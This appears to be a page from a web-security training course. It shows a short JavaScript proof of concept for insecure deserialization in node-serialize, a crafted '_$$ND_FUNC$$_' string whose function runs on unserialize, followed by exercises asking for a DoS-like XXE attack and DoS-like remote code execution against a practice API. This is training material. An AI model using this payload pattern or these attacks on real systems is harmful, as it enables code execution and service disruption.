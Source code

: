 ```javascript
var serialize = require('node-serialize');                                                               
var x = '{"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}'
serialize.unserialize(x);
```

_:warning: The affected version `0.0.4` of `node-serialize` is also the
latest version of this module!_

---

# Exercise 8.4 (:house:)

1. Perform a DoS-like Attack using XXE (:star::star::star::star::star:)



1. Find the „NextGen“ successor to the half-heartedly deprecated
   XML-based B2B API
   * This new API uses a popular standard for REST API specification &
     documentation
2. Exploit this API with at least one successful DoS-like Remote Code
   Exeution (:star::star::star::star::star: -
   :star::star::star::star::star::star:)

_:information_source: If the server would need >2sec to process your
attack request, it is considered „DoS-like“ enough._
